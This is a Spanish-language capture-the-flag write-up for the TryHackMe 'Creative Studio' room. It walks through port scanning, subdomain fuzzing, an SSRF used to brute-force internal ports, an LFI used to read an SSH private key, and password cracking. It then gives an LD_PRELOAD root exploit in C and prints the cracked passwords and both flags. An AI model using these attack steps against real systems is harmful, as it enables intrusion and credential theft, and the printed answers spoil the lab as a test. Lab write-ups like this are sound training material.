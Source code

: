 # TryHackMe - Creative Studio Writeup

## 1. Escaneo 

Como primer punto, empezaremos con la fase de escaneo de puertos. Utilizaremos la herramienta `nmap`:

```bash
nmap -p- --open -n -Pn -T4 --min-rate 8000 -sVC -sS <HOST> -oN <name> -vvv
```

Podemos ver que tenemos los puertos abiertos `22/ssh` y `80/http`:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ahora utilizamos la herramienta `whatweb` para buscar más información:

```bash
whatweb <HOST>
```

El escaneo nos devuelve un error porque el objetivo tiene un dominio. Al ejecutar `whatweb` con el dominio, no encontramos nada relevante:

```
http://creative.thm [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@example.com,info@website.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.134.13], JQuery[3.4.1], Meta-Author[Devcrud], PasswordField, Script, Title[Creative Studio | Free Bootstrap 4.3.x template], YouTube, nginx[1.18.0]
```

Revisando el protocolo HTTP encontramos una página web:

![Página Creativo](creativo.png)

### Enumeración de directorios

Utilizamos la herramienta `ffuf` para buscar directorios ocultos:

```bash
ffuf -u http://creative.thm/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt -t 200
```

Solo encontramos el directorio oculto `assets`, pero no contiene nada relevante. Procedemos a enumerar subdominios:

```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://creative.thm -H "HOST:FUZZ.creative.thm" -fw 6
```

Encontramos el subdominio `beta`. Lo agregamos a `/etc/hosts` y revisamos su contenido. Observamos una página en la URL `beta.creative.thm`, lo que sugiere un posible **SSRF** (Falsificación de Solicitudes del Lado del Servidor).

![Página Beta](creativo2.png)

Al ingresar a `http://127.0.0.1`, nos redirige a la página principal de "Creativo". Realizaremos un ataque de fuerza bruta para encontrar posibles puertos internos con `ffuf`.

Primero, generamos una lista de puertos:

```bash
seq 65535 > puertos.txt
```

Luego, realizamos el ataque:

```bash
ffuf -w puertos.txt -u http://beta.creative.thm -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://127.0.0.1:FUZZ" -fw 3
```

Resultado:

```
80                      
1337 
```

En el puerto `1337`, encontramos un servidor oculto que tiene un **LFI (Local File Inclusion)**:

![Servidor oculto](creativo3.png)

### Explotación de LFI

Al aprovechar el LFI, encontramos un usuario llamado `saad` y accedemos a su archivo `id_rsa`:

![Archivo id_rsa](creativo5.png)

El archivo `id_rsa` está protegido con una contraseña. Utilizamos `ssh2john` para generar un hash y `john the ripper` para crackearlo:

```bash
ssh2john id_rsa > passwd.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwd.txt
```

Obtenemos la contraseña: `sweetness`. Con esto, accedemos al servidor como `saad` mediante SSH.

### Primera Flag

Al conectarnos con `saad`, obtenemos la primera flag:

```
9a1ce90a7653d74ab98630b47b8b4a84
```

---

## 2. Escalada de privilegios

Al revisar `.bash_history`, encontramos la contraseña de `saad`:

```
saad:MyStrongestPasswordYet$4291
```

Usamos el comando `sudo -l` y descubrimos que podemos escalar privilegios utilizando `LD_PRELOAD`. Seguimos estos pasos:

1. Nos movemos a `/tmp` y creamos un archivo en C con el siguiente código:

```c
#include <stdio.h>
#include <sys/types.h> 
#include <stdlib.h> 
void _init() { 
    unsetenv("LD_PRELOAD"); 
    setgid(0); 
    setuid(0); 
    system("/bin/sh"); 
}
```

2. Lo compilamos:

```bash
gcc -fPIC -shared -o name.so name.c -nostartfiles
```

3. Verificamos que se creó correctamente:

```bash
ls -la name.so
```

4. Ejecutamos el exploit con `ping`:

```bash
sudo LD_PRELOAD=/tmp/name.so ping
```

### Segunda Flag

Con privilegios elevados, obtenemos la flag final:

```
992bfd94b90da48634aed182aae7b99f
```

---

¡Writeup completo! 🚩

